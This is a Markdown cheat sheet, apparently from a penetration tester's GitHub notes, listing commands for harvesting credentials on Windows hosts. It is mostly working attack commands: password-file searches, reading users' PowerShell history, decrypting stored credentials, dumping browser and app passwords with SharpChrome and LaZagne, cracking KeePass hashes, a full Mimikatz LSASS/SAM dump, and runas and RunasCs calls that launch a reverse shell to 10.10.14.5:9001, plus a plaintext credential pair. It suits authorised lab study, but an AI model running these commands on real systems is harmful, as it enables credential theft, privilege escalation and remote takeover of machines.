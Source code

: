# ✅ Windows Credential Hunting (Cheat Sheet)


- [ ] kdbx search
---

## 🎯 Quick Wins
- [ ] **Find Plaintext Credentials in Config Files** → *.config, *.xml, *.ini, *.txt
- [ ] **Check PowerShell History** → ConsoleHost_history.txt
- [ ] **Look for Unattend Files** → unattend.xml, sysprep.inf
- [ ] **Search Chrome Dictionary Files** → Custom Dictionary.txt
- [ ] **Grab Stored PowerShell Credentials** → Export-Clixml files
- [ ] **Inspect Sticky Notes DB** → plum.sqlite
- [ ] **Enumerate Saved Creds with cmdkey** → /list
- [ ] **Dump Browser Passwords** → SharpChrome
- [ ] **Run LaZagne for Multi-App Credential Dump**
- [ ] **Find KeePass DB Files** → *.kdbx
- [ ] **Enumerate AutoLogon in Registry**
- [ ] **Recover Wi-Fi Passwords** → netsh wlan show profile key=clear
- [ ] check for `c:\\programdata` , `C:\Users\All USers` , `C:\Program Files` for sensitive files , also check for hidden files and other directories
- [ ] can i dump sam , system , security , ntds ?
- [ ] search for users

---

##  ✅ Hidden in Plain View

```c
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

```


## ✅ File & Config Searches

```c
.\winPEASany.exe quiet cmd searchfast filesinfo
```

```powershell
# Search for credentials in common config/text files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# Recursive search for "password"
findstr /si password *.*

# PowerShell alternative
Select-String -Path C:\Users\*\Documents\*.txt -Pattern "password"

# Search for common credential-related file names
dir /S /B *pass*.txt == *pass*.xml == *cred* == *vnc* == *.config*
where /R C:\ *.config

dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```
## ✅ IIS Config Files (Example)
```c
# Check IIS default web.config
C:\inetpub\wwwroot\web.config
```
## ✅ Chrome Dictionary Files
```c
# Look for saved passwords in Chrome's Custom Dictionary
gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String "password"
```
## ✅ Unattended Installation Files
```c
# Common location
C:\Windows\Panther\unattend.xml
# Look for <Password> tags in XML
```
## ✅ PowerShell History
```c
# Default location
C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate all users' history
foreach($user in ((ls C:\users).fullname)){
  cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue
}
```
## ✅ PowerShell Stored Credentials
```c
# Load and decrypt saved credentials
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().Username
$credential.GetNetworkCredential().Password
```
## ✅ Sticky Notes DB
```c
# Location
C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

# Query notes for secrets
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note"
```
## ✅ Saved Credentials (cmdkey)

```c
# 1.Use winPEAS to check for saved credentials:
> .\winPEASany.exe quiet cmd windowscreds

# 2.It appears that saved credentials for the admin user exist.

# 3.We can verify this manually using the following command:
> cmdkey /list

# 4.If the saved credentials aren’t present, run the following script to refresh the credential:
> C:\PrivEsc\savecred.bat

# 5.We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
> runas /savecred /user:admin C:\PrivEsc\reverse.exe

> runas /user:backupadmin cmd


```c
RunasCs.exe alaading f8gQ8fynP44ek1m3 powershell.exe -r 10.10.14.5:9001
```


```

```c
cmdkey /list
# Example:
# Target: TERMSRV/SQL01
# User: inlanefreight\bob
```
## ✅ Run as Saved Credential
```c
runas /savecred /user:DOMAIN\username "COMMAND"
```
## ✅ Browser Credentials
```c
# Use SharpChrome to dump Chrome saved logins
SharpChrome.exe logins /unprotect
```
## ✅ KeePass Hash Extraction
```c
# Convert KeePass DB to hash
keepass2john.py file.kdbx > hash.txt

# Crack with hashcat
hashcat -m 13400 hash.txt rockyou.txt
```
## ✅ LaZagne – Multi-App Credential Dump
```c
lazagne.exe all
# Dumps creds from browsers, chat apps, RDP, WinSCP, etc.
```
## ✅ SessionGopher – Saved RDP/SSH Credentials
```c
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target localhost
```

## ✅ Searching the Registry for Passwords

```c
# The following commands will search the registry for keys and values that contain “password”
> reg query HKLM /f password /t REG_SZ /s
> reg query HKCU /f password /t REG_SZ /s
# This usually generates a lot of results, so often it is more fruitful to look in known locations
```

```c
# 1.Use winPEAS to check common password locations:
> .\winPEASany.exe quiet filesinfo userinfo
# (the final checks will take a long time to complete)

# 2.The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).

# 3.We can verify these manually:
> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# 4.On Kali, we can use the winexe command to spawn a shell using these credentials:

# winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

## ✅ Registry – Windows AutoLogon
```c
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
# Look for:
# AutoAdminLogon, DefaultUserName, DefaultPassword
```
## ✅ Registry – PuTTY Sessions
```c
reg query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>"
# Look for ProxyUsername, ProxyPassword
```
## ✅ Wi-Fi Passwords
```c
netsh wlan show profile
netsh wlan show profile <SSID> key=clear
```
## ✅ Interesting Files to Check
```c
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
C:\ProgramData\Configs\*
%USERPROFILE%\ntuser.dat
```

##  ✅ Mimikatz

```bash
.\mimikatz.exe "privilege::debug" "token::elevate" "log" "lsadump::sam /patch" "lsadump::sam" "sekurlsa::msv" "lsadump::secrets" "lsadump::lsa" "lsadump::lsa /patch" "lsadump::cache" "sekurlsa::logonpasswords full" "sekurlsa::ekeys" "sekurlsa::dpapi" "sekurlsa::credman" "vault::list" "vault::cred /patch" "exit"

```

```bash
#Elevate Privileges to extract the credentials
privilege::debug #This should give am error if you are Admin, butif it does, check if the SeDebugPrivilege was removed from Admins
token::elevate
#Extract from lsass (memory)
sekurlsa::logonpasswords
#Extract from lsass (service)
lsadump::lsa /inject
#Extract from SAM
lsadump::sam
#One liner
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```


